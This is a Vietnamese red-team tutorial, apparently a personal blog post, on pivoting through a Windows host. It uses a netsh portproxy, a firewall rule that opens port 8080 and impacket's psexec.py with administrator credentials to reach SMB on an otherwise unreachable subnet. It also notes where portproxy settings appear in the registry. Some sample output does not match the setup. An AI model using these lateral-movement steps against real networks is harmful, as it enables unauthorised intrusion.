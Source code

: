 ```yaml
--- 
layout: post
title: Pivoting: "Setting up a port proxy with netsh on windows"
categories: Network Pivot Redteam
author: Rosiz
---
```


* conten
{:toc}

Pivoting là một skill thiết yếu cần được trang bị cho một Red Teamer. Khi bạn đứng bên trong một network và bạn vô tình tìm thấy một server, mà nó có thể giao tiếp với một subnet mục tiêu mà bạn đang theo đuổi, câu hỏi là làm gì tiếp theo?

Là một Red Teamer bạn sẽ muốn tận dụng lợi thế này để có thể attack những gì trên đó và có thể đi sâu và xa hơn vào trong của hệ thống mạng của target.

"Pivoting" là gì? Bạn có thể hiểu Pivoting là cách bạn đi từ chỗ đứng hiện tại của mình đến nơi bạn muốn đến?

Vậy thì Pivoting bằng cách nào? Thì hôm này mình xin giới thiệu cách setup một portproxy giữa máy của bạn và máy client nằm trong subnet mục tiêu bằng cách sử dụng netsh trên Windows.

![](https://raw.githubusercontent.com/rosiz/rosiz.github.io/master/__photo/__no1/1.PNG)

Ví dụ trong ngữ cảnh ta có một máy A có thể thấy được máy B, mà trên B được cấu hình thêm một interface hoặc được route để thấy được một subnet khác, bao gồm máy C. Như vậy máy A không thể thấy trực tiếp được máy C, và ngược lại. Vậy thì làm sao để khai thác máy C từ A?

![](https://raw.githubusercontent.com/rosiz/rosiz.github.io/master/__photo/__no1/2.PNG)

- Machine A: 172.16.0.20
- Machine B: 172.16.0.11 và 7.7.7.11
- Machine C: 7.7.7.20

## Seting on machine B

```js
netsh interface portproxy add v4tov4 listenport=8080 connectport=445 connectaddress=7.7.7.20
```

Ở đây, ta đang tiến hành setup một portproxy sẽ listen trên port 8080 và nó sẽ nhậ gửi data đến conectAddress (A) trên port 445. Điều này sẽ được thực hiện thông qua kết nối TCP riêng biệt.

Ta có thể kiểm tra setting bằng lệnh dưới đây:

```js
netsh interface portproxy show v4tov4
```

```js
Listen on IPv4:             Connect to IPv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
*               8080        192.168.1.2     445
```

*Note:* Portproxy config sẽ được lưu trong registry, vì vậy đây là nơi bạn có thể phát hiện các persistence portproxies mà không sử dụng netsh.

```js
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\PortProxy\v4tov4\tcp

*/1337       : 192.168.1.2/8000
```

Để tiếp tục quá trình thừ nghiệm, bạn hãy tiến hành mở port trên máy B bằng lệnh sau:

```js
netsh advfirewall firewall add rule name="Proxy all the things" dir=in action=allow protocol=TCP localport=8080
```

Bạn có thể hiểu như thế này, nếu máy A muốn kết nối đến port 445 của máy C (7.7.7.20) thì nó phải bắt buộc đẩy traffic đến port 8080 của máy B (172.16.0.11)

## On Machine A:

Trong trường hợp này mình sẽ dùng công cụ psexec.py của bộ công cụ impacket để thực hiện kết nối đến máy C (7.7.7.20:445) thông qua máy B (172.16.0.11:8080)

```js
psexec.py Domain/Administrator:123@172.16.0.11 -port 8080
```
*Note:* Bạn cần chỉnh sữ port trong script python psexec.py để thực hiện điều này.

Sau khi hoàn toàn công việc, bạn muốn remove portproxy, bạn có thể sử dụng lệnh sau:

```js
netsh interface portproxy delete v4tov4 listenport=8080
```